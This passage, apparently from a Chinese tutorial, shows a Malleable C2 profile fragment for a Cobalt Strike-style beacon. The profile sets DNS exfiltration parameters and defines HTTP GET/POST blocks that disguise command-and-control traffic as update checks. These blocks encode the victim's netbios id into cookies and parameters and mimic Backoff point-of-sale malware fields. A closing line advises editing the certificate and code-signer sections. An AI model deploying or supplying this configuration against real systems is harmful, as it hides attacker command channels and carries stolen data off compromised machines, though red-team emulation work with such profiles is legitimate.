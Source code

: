 ```
set dns_idle "8.8.4.4";
#每个单独DNS请求前强制睡眠时间
set dns_sleep "0";
#通过DNS上载数据时主机名的最大长度[0-255]
set maxdns    "235";

http-post {
  set uri "/windebug/updcheck.php /aircanada/dark.php /aero2/fly.php /windowsxp/updcheck.php /hello/flash.php";
  client {
    header "Accept" "text/plain";
    header "Accept-Language" "en-us";
    header "Accept-Encoding" "text/plain";
    header "Content-Type" "application/x-www-form-urltrytryd";
    id {
      netbios;
      parameter "id";
    }
    output {
      base64;
      prepend "&op=1&id=vxeykS&ui=Josh @ PC&wv=11&gr=backoff&bv=1.55&data=";
      print;
    }
  }
  server {
    output {
      print;
    }
  }
}

http-get {
  set uri "/updates";
  client {
    metadata {
      netbiosu;
      prepend "user=";
      header "Cookie";
    }
  }
  server {
    header "Content-Type" "text/plain";
    output {
      base64;
      print;
    }
  }
}
```

主要需要修改的是 https-certificate 和 code-signer 两处地方，对应 keytool 填写的信息即可。
